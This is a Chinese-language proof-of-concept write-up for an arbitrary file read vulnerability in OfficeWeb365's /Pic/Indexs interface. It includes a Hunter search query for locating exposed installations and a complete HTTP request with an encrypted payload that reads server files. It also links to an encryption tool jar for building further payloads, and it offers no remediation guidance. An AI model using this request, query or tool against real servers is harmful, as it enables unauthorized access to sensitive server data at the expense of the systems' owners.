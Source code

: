# OfficeWeb365 Pic存在任意读取漏洞

# 一、漏洞简介
OfficeWeb365是西安大西信息科技有限公司开发的，专注于Office文档在线预览及PDF文档在线预览云服务，包括Microsoft Word文档在线预览、Excel表格在线预览、Powerpoint演示文档在线预览，WPS文字处理、WPS表格、WPS演示及Adobe PDF文档在线预览。广泛应用于OA办公系统、招聘网站、在线教育类网站，提高客户体验、增加产品竞争力。OfficeWeb365 /Pic/Indexs接口处存在任意文件读取漏洞，攻击者可通过独特的加密方式对payload进行加密，读取任意文件，获取服务器敏感信息，使系统处于极不安全的状态。

# 二、影响版本
+ OfficeWeb365

# 三、资产测绘
+ hunter：`app.name="OfficeWeb365"`

![1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94.png](./img/Lvi5zs9BqmYWw8we/1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94-620163.png)

+ 登录页面

![1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636.png](./img/Lvi5zs9BqmYWw8we/1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636-180691.png)

# 四、漏洞复现
```http
GET /Pic/Indexs?imgs=DJwkiEm6KXJZ7aEiGyN4Cz83Kn1PLaKA09 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1705158317873-5dd3158a-9b82-425f-a3a3-6d588f57aff0.png](./img/Lvi5zs9BqmYWw8we/1705158317873-5dd3158a-9b82-425f-a3a3-6d588f57aff0-908828.png)

[Mosaic-crypt-tools-1.5-SNAPSHOT-jar-with-dependencies.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222151369-ef2358bd-08df-4e87-92ee-c1b130128665.jar)

![1705158348583-85083a94-d61a-47a6-9280-2453025e7da7.png](./img/Lvi5zs9BqmYWw8we/1705158348583-85083a94-d61a-47a6-9280-2453025e7da7-397744.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ot9mxhmqtud1katb>